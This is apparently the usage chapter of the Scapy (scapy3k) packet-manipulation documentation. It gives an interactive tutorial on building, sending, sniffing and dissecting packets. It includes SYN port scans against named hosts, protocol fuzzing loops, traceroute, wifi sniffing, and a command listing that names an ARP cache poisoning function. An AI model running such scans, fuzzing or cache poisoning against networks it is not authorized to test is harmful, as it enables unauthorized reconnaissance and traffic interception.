 *****
Usage
*****

.. note::

   This section has been partially updated for scapy3k. Some code examples may not work directly. Try bytes() instead of str() and b'string' instead of b'somestring'.

Starting Scapy
==============

Scapy's interactive shell is run in a terminal session. Root privileges are needed to
send the packets, so we're using ``sudo`` here::
  
    $ sudo scapy
    INFO: Please, report issues to https://github.com/phaethon/scapy
    WARNING: IPython not available. Using standard Python shell instead.
    Welcome to Scapy (3.0.0)
    >>>

If you have installed IPython this is an example Scapy startup::

    $ sudo scapy
    INFO: Please, report issues to https://github.com/phaethon/scapy
    Python 3.4.2 (default, Jul  9 2015, 17:24:30) 
    Type "copyright", "credits" or "license" for more information.
    
    IPython 2.4.1 -- An enhanced Interactive Python.
    ?         -> Introduction and overview of IPython's features.
    %quickref -> Quick reference.
    help      -> Python's own help system.
    object?   -> Details about 'object', use 'object??' for extra details.
    
    Welcome to Scapy (3.0.0) using IPython 2.4.1
    In [1]: 

If you do not have all optional packages installed, Scapy will inform you that 
some features will not be available:: 
                                 
    INFO: Can't import matplotlib. Not critical, but won't be able to plot.
    INFO: Can't import networkx. Not criticial, but won't be able to draw network graphs.
    INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().

The basic features of sending and receiving packets should still work, though. 


Interactive tutorial
====================

This section will show you several of Scapy's features.
Just open a Scapy session as shown above and try the examples yourself.


First steps
-----------

Let's build a packet and play with it::

    >>> a=IP(ttl=10) 
    >>> a 
    < IP ttl=10 |> 
    >>> a.src 
    ’127.0.0.1’ 
    >>> a.dst="192.168.1.1" 
    >>> a 
    < IP ttl=10 dst=192.168.1.1 |> 
    >>> a.src 
    ’192.168.8.14’ 
    >>> del(a.ttl) 
    >>> a 
    < IP dst=192.168.1.1 |> 
    >>> a.ttl 
    64 

Stacking layers
---------------

The ``/`` operator has been used as a composition operator between two layers. When doing so, the lower layer can have one or more of its defaults fields overloaded according to the upper layer. (You still can give the value you want). A string can be used as a raw layer.

::

    >>> IP()
    <IP |>
    >>> IP()/TCP()
    <IP frag=0 proto=TCP |<TCP |>>
    >>> Ether()/IP()/TCP()
    <Ether type=0x800 |<IP frag=0 proto=TCP |<TCP |>>>
    >>> IP()/TCP()/b"GET / HTTP/1.0\r\n\r\n"
    <IP frag=0 proto=TCP |<TCP |<Raw load='GET / HTTP/1.0\r\n\r\n' |>>>
    >>> Ether()/IP()/IP()/UDP()
    <Ether type=0x800 |<IP frag=0 proto=IP |<IP frag=0 proto=UDP |<UDP |>>>>
    >>> IP(proto=55)/TCP()
    <IP frag=0 proto=55 |<TCP |>>


.. image:: graphics/fieldsmanagement.*
   :scale: 90

Each packet can be build or dissected (note: in Python ``_`` (underscore) is the latest result)::

    >>> bytes(IP())
    b'E\x00\x00\x14\x00\x01\x00\x00@\x00|\xe7\x7f\x00\x00\x01\x7f\x00\x00\x01'
    >>> IP(_)
    <IP version=4 ihl=5 tos=0x0 len=20 id=1 flags= frag=0 ttl=64 proto=IP
     chksum=0x7ce7 src=127.0.0.1 dst=127.0.0.1 |>
    >>>  a=Ether()/IP(dst="www.slashdot.org")/TCP()/b"GET /index.html HTTP/1.0 \n\n"
    >>>  hexdump(a)   
    00 02 15 37 A2 44 00 AE F3 52 AA D1 08 00 45 00  ...7.D...R....E.
    00 43 00 01 00 00 40 06 78 3C C0 A8 05 15 42 23  .C....@.x<....B#
    FA 97 00 14 00 50 00 00 00 00 00 00 00 00 50 02  .....P........P.
    20 00 BB 39 00 00 47 45 54 20 2F 69 6E 64 65 78   ..9..GET /index
    2E 68 74 6D 6C 20 48 54 54 50 2F 31 2E 30 20 0A  .html HTTP/1.0 .
    0A                                               .
    >>> b=bytes(a)
    >>> b
    b'\x00\x02\x157\xa2D\x00\xae\xf3R\xaa\xd1\x08\x00E\x00\x00C\x00\x01\x00\x00@\x06x<\xc0
     \xa8\x05\x15B#\xfa\x97\x00\x14\x00P\x00\x00\x00\x00\x00\x00\x00\x00P\x02 \x00
     \xbb9\x00\x00GET /index.html HTTP/1.0 \n\n'
    >>> c=Ether(b)
    >>> c
    <Ether dst=00:02:15:37:a2:44 src=00:ae:f3:52:aa:d1 type=0x800 |<IP version=4L
     ihl=5 tos=0x0 len=67 id=1 flags= frag=0 ttl=64 proto=TCP chksum=0x783c
     src=192.168.5.21 dst=66.35.250.151 options='' |<TCP sport=20 dport=80 seq=0
     ack=0 dataofs=5 reserved=0 flags=S window=8192 chksum=0xbb39 urgptr=0
     options=[] |<Raw load='GET /index.html HTTP/1.0 \n\n' |>>>>

We see that a dissected packet has all its fields filled. That's because I consider that each field has its value imposed by the original string. If this is too verbose, the method hide_defaults() will delete every field that has the same value as the default::

    >>> c.hide_defaults()
    >>> c
    <Ether dst=00:0f:66:56:fa:d2 src=00:ae:f3:52:aa:d1 type=0x800 |<IP ihl=5L len=67
     frag=0 proto=TCP chksum=0x783c src=192.168.5.21 dst=66.35.250.151 |<TCP dataofs=5L
     chksum=0xbb39 options=[] |<Raw load='GET /index.html HTTP/1.0 \n\n' |>>>>

Reading PCAP files
------------------

.. index::
   single: rdpcap()

You can read packets from a pcap file and write them to a pcap file. 

    >>> a=rdpcap("/spare/captures/isakmp.cap")
    >>> a
    <isakmp.cap: UDP:721 TCP:0 ICMP:0 Other:0>

Graphical dumps (PDF, PS)
-------------------------

.. index::
   single: pdfdump(), psdump()

If you have PyX installed, you can make a graphical PostScript/PDF dump of a packet or a list of packets (see the ugly PNG image below. PostScript/PDF are far better quality...)::

    >>> a[423].pdfdump(layer_shift=1)
    >>> a[423].psdump("/tmp/isakmp_pkt.eps",layer_shift=1)
    
.. image:: graphics/isakmp_dump.png



=======================   ====================================================
Command                   Effect
=======================   ====================================================
bytes(pkt)                  assemble the packet 
hexdump(pkt)              have an hexadecimal dump 
ls(pkt)                   have the list of fields values 
pkt.summary()             for a one-line summary 
pkt.show()                for a developped view of the packet 
pkt.show2()               same as show but on the assembled packet (checksum is calculated, for instance) 
pkt.sprintf()             fills a format string with fields values of the packet 
pkt.decode_payload_as()   changes the way the payload is decoded 
pkt.psdump()              draws a PostScript diagram with explained dissection 
pkt.pdfdump()             draws a PDF with explained dissection 
pkt.command()             return a Scapy command that can generate the packet 
=======================   ====================================================



Generating sets of packets
--------------------------

For the moment, we have only generated one packet. Let see how to specify sets of packets as easily. Each field of the whole packet (ever layers) can be a set. This implicidely define a set of packets, generated using a kind of cartesian product between all the fields.

::

    >>> a=IP(dst="www.slashdot.org/30")
    >>> a
    <IP  dst=Net('www.slashdot.org/30') |>
    >>> [p for p in a]
    [<IP dst=66.35.250.148 |>, <IP dst=66.35.250.149 |>,
     <IP dst=66.35.250.150 |>, <IP dst=66.35.250.151 |>]
    >>> b=IP(ttl=[1,2,(5,9)])
    >>> b
    <IP ttl=[1, 2, (5, 9)] |>
    >>> [p for p in b]
    [<IP ttl=1 |>, <IP ttl=2 |>, <IP ttl=5 |>, <IP ttl=6 |>, 
     <IP ttl=7 |>, <IP ttl=8 |>, <IP ttl=9 |>]
    >>> c=TCP(dport=[80,443])
    >>> [p for p in a/c]
    [<IP frag=0 proto=TCP dst=66.35.250.148 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.148 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.149 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.149 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.150 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.150 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.151 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.151 |<TCP dport=443 |>>]

Some operations (like building the string from a packet) can't work on a set of packets. In these cases, if you forgot to unroll your set of packets, only the first element of the list you forgot to generate will be used to assemble the packet.

===============  ====================================================
Command          Effect
===============  ====================================================
summary()        displays a list of summaries of each packet 
nsummary()       same as previous, with the packet number 
conversations()  displays a graph of conversations 
show()           displays the prefered representation (usually nsummary()) 
filter()         returns a packet list filtered with a lambda function 
hexdump()        returns a hexdump of all packets 
hexraw()         returns a hexdump of the Raw layer of all packets 
padding()        returns a hexdump of packets with padding 
nzpadding()      returns a hexdump of packets with non-zero padding 
plot()           plots a lambda function applied to the packet list 
make table()     displays a table according to a lambda function 
===============  ====================================================



Sending packets
---------------

.. index::
   single: Sending packets, send
   
Now that we know how to manipulate packets. Let's see how to send them. The send() function will send packets at layer 3. That is to say it will handle routing and layer 2 for you. The sendp() function will work at layer 2. It's up to you to choose the right interface and the right link layer protocol.

::

    >>> send(IP(dst="1.2.3.4")/ICMP())
    .
    Sent 1 packets.
    >>> sendp(Ether()/IP(dst="1.2.3.4",ttl=(1,4)), iface="eth1")
    ....
    Sent 4 packets.
    >>> sendp("I'm travelling on Ethernet", iface="eth1", loop=1, inter=0.2)
    ................^C
    Sent 16 packets.
    >>> sendp(rdpcap("/tmp/pcapfile")) # tcpreplay
    ...........
    Sent 11 packets.


Fuzzing
-------

.. index::
   single: fuzz(), fuzzing

The function fuzz() is able to change any default value that is not to be calculated (like checksums) by an object whose value is random and whose type is adapted to the field. This enables to quicky built fuzzing templates and send them in loop. In the following example, the IP layer is normal, and the UDP and NTP layers are fuzzed. The UDP checksum will be correct, the UDP destination port will be overloaded by NTP to be 123 and the NTP version will be forced to be 4. All the other ports will be randomized::

    >>> send(IP(dst="target")/fuzz(UDP()/NTP(version=4)),loop=1)
    ................^C
    Sent 16 packets.


Send and receive packets (sr)
-----------------------------

.. index::
   single: sr()

Now, let's try to do some fun things. The sr() function is for sending packets and receiving answers. The function returns a couple of packet and answers, and the unanswered packets. The function sr1() is a variant that only return one packet that answered the packet (or the packet set) sent. The packets must be layer 3 packets (IP, ARP, etc.). The function srp() do the same for layer 2 packets (Ethernet, 802.3, etc.).

::

    >>> p=sr1(IP(dst="www.slashdot.org")/ICMP()/b"XXXXXXXXXXX")
    Begin emission:
    ...Finished to send 1 packets.
    .*
    Received 5 packets, got 1 answers, remaining 0 packets
    >>> p
    <IP version=4 ihl=5 tos=0x0 len=39 id=15489 flags= frag=0 ttl=42 proto=ICMP
     chksum=0x51dd src=66.35.250.151 dst=192.168.5.21 options='' |<ICMP type=echo-reply
     code=0 chksum=0xee45 id=0x0 seq=0x0 |<Raw load='XXXXXXXXXXX'|>>>>
    >>> p.show()
    ---[ IP ]---
    version   = 4
    ihl       = 5
    tos       = 0x0
    len       = 39
    id        = 15489
    flags     = 
    frag      = 0
    ttl       = 42
    proto     = ICMP
    chksum    = 0x51dd
    src       = 66.35.250.151
    dst       = 192.168.5.21
    \options\
    ---[ ICMP ]---
       type      = echo-reply
       code      = 0
       chksum    = 0xee45
       id        = 0x0
       seq       = 0x0
    ---[ Raw ]---
          load      = 'XXXXXXXXXXX'
    ---[ Padding ]---
             load      = '\x00\x00\x00\x00'


.. index::
   single: DNS, Etherleak

A DNS query (``rd`` = recursion desired). The host 192.168.5.1 is my DNS server. Note the non-null padding coming from my Linksys having the Etherleak flaw::

    >>> sr1(IP(dst="192.168.5.1")/UDP()/DNS(rd=1,qd=DNSQR(qname="www.slashdot.org")))
    Begin emission:
    Finished to send 1 packets.
    ..*
    Received 3 packets, got 1 answers, remaining 0 packets
    <IP version=4 ihl=5 tos=0x0 len=78 id=0 flags=DF frag=0 ttl=64 proto=UDP chksum=0xaf38
     src=192.168.5.1 dst=192.168.5.21 options='' |<UDP sport=53 dport=53 len=58 chksum=0xd55d
     |<DNS id=0 qr=1 opcode=QUERY aa=0L tc=0L rd=1 ra=1 z=0L rcode=ok qdcount=1 ancount=1
     nscount=0 arcount=0 qd=<DNSQR qname='www.slashdot.org.' qtype=A qclass=IN |> 
     an=<DNSRR rrname='www.slashdot.org.' type=A rclass=IN ttl=3560L rdata='66.35.250.151' |>
     ns=0 ar=0 |<Padding load='\xc6\x94\xc7\xeb' |>>>>

The "send'n'receive" functions family is the heart of scapy. They return a couple of two lists. The first element is a list of couples (packet sent, answer), and the second element is the list of unanswered packets. These two elements are lists, but they are wrapped by an object to present them better, and to provide them with some methods that do most frequently needed actions::

    >>> sr(IP(dst="192.168.8.1")/TCP(dport=[21,22,23]))
    Received 6 packets, got 3 answers, remaining 0 packets
    (<Results: UDP:0 TCP:3 ICMP:0 Other:0>, <Unanswered: UDP:0 TCP:0 ICMP:0 Other:0>)
    >>> ans,unans=_
    >>> ans.summary()
    IP / TCP 192.168.8.14:20 > 192.168.8.1:21 S ==> Ether / IP / TCP 192.168.8.1:21 > 192.168.8.14:20 RA / Padding
    IP / TCP 192.168.8.14:20 > 192.168.8.1:22 S ==> Ether / IP / TCP 192.168.8.1:22 > 192.168.8.14:20 RA / Padding
    IP / TCP 192.168.8.14:20 > 192.168.8.1:23 S ==> Ether / IP / TCP 192.168.8.1:23 > 192.168.8.14:20 RA / Padding
    
If there is a limited rate of answers, you can specify a time interval to wait between two packets with the inter parameter. If some packets are lost or if specifying an interval is not enough, you can resend all the unanswered packets, either by calling the function again, directly with the unanswered list, or by specifying a retry parameter. If retry is 3, scapy will try to resend unanswered packets 3 times. If retry is -3, scapy will resend unanswered packets until no more answer is given for the same set of unanswered packets 3 times in a row. The timeout parameter specify the time to wait after the last packet has been sent::

    >>> sr(IP(dst="172.20.29.5/30")/TCP(dport=[21,22,23]),inter=0.5,retry=-2,timeout=1)
    Begin emission:
    Finished to send 12 packets.
    Begin emission:
    Finished to send 9 packets.
    Begin emission:
    Finished to send 9 packets.
    
    Received 100 packets, got 3 answers, remaining 9 packets
    (<Results: UDP:0 TCP:3 ICMP:0 Other:0>, <Unanswered: UDP:0 TCP:9 ICMP:0 Other:0>)


SYN Scans
---------

.. index::
   single: SYN Scan

Classic SYN Scan can be initialized by executing the following command from Scapy's prompt::

    >>> sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S"))

The above will send a single SYN packet to Google's port 80 and will quit after receving a single response::

    Begin emission:
    .Finished to send 1 packets.
    *
    Received 2 packets, got 1 answers, remaining 0 packets
    <IP  version=4 ihl=5L tos=0x20 len=44 id=33529 flags= frag=0 ttl=244
    proto=TCP chksum=0x6a34 src=72.14.207.99 dst=192.168.1.100 options=// |
    <TCP  sport=www dport=ftp-data seq=2487238601 ack=1 dataofs=6 reserved=0
    flags=SA window=8190 chksum=0xcdc7 urgptr=0 options=[('MSS', 536)] |
    <Padding  load='V\xf7' |>>>

From the above output, we can see Google returned “SA” or SYN-ACK flags indicating an open port.

Use either notations to scan ports 400 through 443 on the system:

    >>> sr(IP(dst="192.168.1.1")/TCP(sport=666,dport=(440,443),flags="S"))

or

    >>> sr(IP(dst="192.168.1.1")/TCP(sport=RandShort(),dport=[440,441,442,443],flags="S"))

In order to quickly review responses simply request a summary of collected packets::

    >>> ans,unans = _
    >>> ans.summary()
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:440 S ======> IP / TCP 192.168.1.1:440 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:441 S ======> IP / TCP 192.168.1.1:441 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:442 S ======> IP / TCP 192.168.1.1:442 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:https S ======> IP / TCP 192.168.1.1:https > 192.168.1.100:ftp-data SA / Padding

The above will display stimulus/response pairs for answered probes. We can display only the information we are interested in by using a simple loop:

    >>> ans.summary(lambda s,r: r.sprintf("%TCP.sport% \t %TCP.flags%"))
    440      RA
    441      RA
    442      RA
    https    SA

Even better, a table can be built using the ``make_table()`` function to display information about multiple targets::

    >>> ans,unans = sr(IP(dst=["192.168.1.1","yahoo.com","slashdot.org"])/TCP(dport=[22,80,443],flags="S"))
    Begin emission:
    .......*.**.......Finished to send 9 packets.
    **.*.*..*..................
    Received 362 packets, got 8 answers, remaining 1 packets
    >>> ans.make_table(
    ...    lambda s,r: (s.dst, s.dport,
    ...    r.sprintf("{TCP:%TCP.flags%}{ICMP:%IP.src% - %ICMP.type%}")))
        66.35.250.150                192.168.1.1 216.109.112.135 
    22  66.35.250.150 - dest-unreach RA          -               
    80  SA                           RA          SA              
    443 SA                           SA          SA              

The above example will even print the ICMP error type if the ICMP packet was received as a response instead of expected TCP.

For larger scans, we could be interested in displaying only certain responses. The example below will only display packets with the “SA” flag set::

    >>> ans.nsummary(lfilter = lambda s,r: r.sprintf("%TCP.flags%") == "SA")
    0003 IP / TCP 192.168.1.100:ftp_data > 192.168.1.1:https S ======> IP / TCP 192.168.1.1:https > 192.168.1.100:ftp_data SA

In case we want to do some expert analysis of responses, we can use the following command to indicate which ports are open::

    >>> ans.summary(lfilter = lambda s,r: r.sprintf("%TCP.flags%") == "SA", prn = lambda s,r: r.sprintf("%TCP.sport% is open"))
    https is open

Again, for larger scans we can build a table of open ports::

    >>> ans.filter(lambda s,r: TCP in r and r[TCP].flags&2).make_table(lambda s,r: 
    ...             (s.dst, s.dport, "X"))
        66.35.250.150 192.168.1.1 216.109.112.135 
    80  X             -           X               
    443 X             X           X

If all of the above methods were not enough, Scapy includes a report_ports() function which not only automates the SYN scan, but also produces a LaTeX output with collected results::

    >>> report_ports("192.168.1.1",(440,443))
    Begin emission:
    ...*.**Finished to send 4 packets.
    *
    Received 8 packets, got 4 answers, remaining 0 packets
    '\\begin{tabular}{|r|l|l|}\n\\hline\nhttps & open & SA \\\\\n\\hline\n440
     & closed & TCP RA \\\\\n441 & closed & TCP RA \\\\\n442 & closed & 
    TCP RA \\\\\n\\hline\n\\hline\n\\end{tabular}\n'


TCP traceroute
--------------

.. index::
   single: Traceroute

A TCP traceroute::

    >>> ans,unans=sr(IP(dst=target, ttl=(4,25),id=RandShort())/TCP(flags=0x2))
    *****.******.*.***..*.**Finished to send 22 packets.
    ***......
    Received 33 packets, got 21 answers, remaining 1 packets
    >>> for snd,rcv in ans:
    ...     print(snd.ttl, rcv.src, isinstance(rcv.payload, TCP))
    ... 
    5 194.51.159.65 0
    6 194.51.159.49 0
    4 194.250.107.181 0
    7 193.251.126.34 0
    8 193.251.126.154 0
    9 193.251.241.89 0
    10 193.251.241.110 0
    11 193.251.241.173 0
    13 208.172.251.165 0
    12 193.251.241.173 0
    14 208.172.251.165 0
    15 206.24.226.99 0
    16 206.24.238.34 0
    17 173.109.66.90 0
    18 173.109.88.218 0
    19 173.29.39.101 1
    20 173.29.39.101 1
    21 173.29.39.101 1
    22 173.29.39.101 1
    23 173.29.39.101 1
    24 173.29.39.101 1

Note that the TCP traceroute and some other high-level functions are already coded::

    >>> lsc()
    sr               : Send and receive packets at layer 3
    sr1              : Send packets at layer 3 and return only the first answer
    srp              : Send and receive packets at layer 2
    srp1             : Send and receive packets at layer 2 and return only the first answer
    srloop           : Send a packet at layer 3 in loop and print the answer each time
    srploop          : Send a packet at layer 2 in loop and print the answer each time
    sniff            : Sniff packets
    p0f              : Passive OS fingerprinting: which OS emitted this TCP SYN ?
    arpcachepoison   : Poison target's cache with (your MAC,victim's IP) couple
    send             : Send packets at layer 3
    sendp            : Send packets at layer 2
    traceroute       : Instant TCP traceroute
    arping           : Send ARP who-has requests to determine which hosts are up
    ls               : List  available layers, or infos on a given layer
    lsc              : List user commands
    queso            : Queso OS fingerprinting
    nmap_fp          : nmap fingerprinting
    report_ports     : portscan a target and output a LaTeX table
    dyndns_add       : Send a DNS add message to a nameserver for "name" to have a new "rdata"
    dyndns_del       : Send a DNS delete message to a nameserver for "name"
    [...]

Configuring super sockets
-------------------------

.. index::
   single: super socket

The process of sending packets and receiving is quite complicated. As I wanted to use the PF_PACKET interface to go through netfilter, I also needed to implement an ARP stack and ARP cache, and a LL stack. Well it seems to work, on ethernet and PPP interfaces, but I don't guarantee anything. Anyway, the fact I used a kind of super-socket for that mean that you can switch your IO layer very easily, and use PF_INET/SOCK_RAW, or use PF_PACKET at level 2 (giving the LL header (ethernet,...) and giving yourself mac addresses, ...). I've just added a super socket which use libdnet and libpcap, so that it should be portable::

    >>> conf.L3socket=L3dnetSocket
    >>> conf.L3listen=L3pcapListenSocket

Sniffing
--------

.. index::
   single: sniff()

We can easily capture some packets or even clone tcpdump or tethereal. If no interface is given, sniffing will happen on every interfaces::

    >>>  sniff(filter="icmp and host 66.35.250.151", count=2)
    <Sniffed: UDP:0 TCP:0 ICMP:2 Other:0>
    >>>  a=_
    >>>  a.nsummary()
    0000 Ether / IP / ICMP 192.168.5.21 echo-request 0 / Raw
    0001 Ether / IP / ICMP 192.168.5.21 echo-request 0 / Raw
    >>>  a[1]
    <Ether dst=00:ae:f3:52:aa:d1 src=00:02:15:37:a2:44 type=0x800 |<IP version=4
     ihl=5 tos=0x0 len=84 id=0 flags=DF frag=0 ttl=64 proto=ICMP chksum=0x3831
     src=192.168.5.21 dst=66.35.250.151 options='' |<ICMP type=echo-request code=0
     chksum=0x6571 id=0x8745 seq=0x0 |<Raw load='B\xf7g\xda\x00\x07um\x08\t\n\x0b
     \x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d
     \x1e\x1f !\x22#$%&\'()*+,-./01234567' |>>>>
    >>> sniff(iface="wifi0", prn=lambda x: x.summary())
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 5 00:0a:41:ee:a5:50 / 802.11 Probe Response / Info SSID / Info Rates / Info DSset / Info 133
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 11 00:07:50:d6:44:3f / 802.11 Authentication
    802.11 Management 11 00:0a:41:ee:a5:50 / 802.11 Authentication
    802.11 Management 0 00:07:50:d6:44:3f / 802.11 Association Request / Info SSID / Info Rates / Info 133 / Info 149
    802.11 Management 1 00:0a:41:ee:a5:50 / 802.11 Association Response / Info Rates / Info 133 / Info 149
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 / LLC / SNAP / ARP who has 172.20.70.172 says 172.20.70.171 / Padding
    802.11 / LLC / SNAP / ARP is at 00:0a:b7:4b:9c:dd says 172.20.70.172 / Padding
    802.11 / LLC / SNAP / IP / ICMP echo-request 0 / Raw
    802.11 / LLC / SNAP / IP / ICMP echo-reply 0 / Raw
    >>> sniff(iface="eth1", prn=lambda x: x.show())
    ---[ Ethernet ]---
    dst       = 00:ae:f3:52:aa:d1
    src       = 00:02:15:37:a2:44
    type      = 0x800
    ---[ IP ]---
       version   = 4
       ihl       = 5
       tos       = 0x0
       len       = 84
       id        = 0
       flags     = DF
       frag      = 0
       ttl       = 64
       proto     = ICMP
       chksum    = 0x3831
       src       = 192.168.5.21
       dst       = 66.35.250.151
       options   = ''
    ---[ ICMP ]---
          type      = echo-request
          code      = 0
          chksum    = 0x89d9
          id        = 0xc245
          seq       = 0x0
    ---[ Raw ]---
             load      = 'B\xf7i\xa9\x00\x04\x149\x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !\x22#$%&\'()*+,-./01234567'
    ---[ Ethernet ]---
    dst       = 00:02:15:37:a2:44
    src       = 00:ae:f3:52:aa:d1
    type      = 0x800
    ---[ IP ]---
       version   = 4L
       ihl       = 5L
       tos       = 0x0
       len       = 84
       id        = 2070
       flags     = 
       frag      = 0L
       ttl       = 42
       proto     = ICMP
       chksum    = 0x861b
       src       = 66.35.250.151
       dst       = 192.168.5.21
       options   = ''
    ---[ ICMP ]---
          type      = echo-reply
          code      = 0
          chksum    = 0x91d9
          id        = 0xc245
          seq       = 0x0
    ---[ Raw ]---
             load      = 'B\xf7i\xa9\x00\x04\x149\x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !\x22#$%&\'()*+,-./01234567'
    ---[ Padding ]---
                load      = '\n_\x00\x0b'

For even more control over displayed information we can use the ``sprintf()`` function::

    >>> pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
    192.168.1.100 -> 64.233.167.99
    
    64.233.167.99 -> 192.168.1.100
    
    192.168.1.100 -> 64.233.167.99
    
    192.168.1.100 -> 64.233.167.99
    'GET / HTTP/1.1\r\nHost: 64.233.167.99\r\nUser-Agent: Mozilla/5.0 
    (X11; U; Linux i686; en-US; rv:1.8.1.8) Gecko/20071022 Ubuntu/7.10 (gutsy)
    Firefox/2.0.0.8\r\nAccept: text/xml,application/xml,application/xhtml+xml,
    text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5\r\nAccept-Language:
    en-us,en;q=0.5\r\nAccept-Encoding: gzip,deflate\r\nAccept-Charset:
    ISO-8859-1,utf-8;q=0.7,*;q=0.7\r\nKeep-Alive: 300\r\nConnection:
    keep-alive\r\nCache-Control: max-age=0\r\n\r\n'
    
We can sniff and do passive OS fingerprinting::

    >>> p
    <Ether dst=00:10:4b:b3:7d:4e src=00:40:33:96:7b:60 type=0x800 |<IP version=4
     ihl=5 tos=0x0 len=60 id=61681 flags=DF frag=0 ttl=64 proto=TCP chksum=0xb85e
     src=192.168.8.10 dst=192.168.8.1 options='' |<TCP sport=46511 dport=80
     seq=2023566040 ack=0 dataofs=10 reserved=0 flags=SEC window=5840
     chksum=0x570c urgptr=0 options=[('Timestamp', (342940201L, 0)), ('MSS', 1460),
     ('NOP', ()), ('SAckOK', ''), ('WScale', 0)] |>>>
    >>> load_module("p0f")
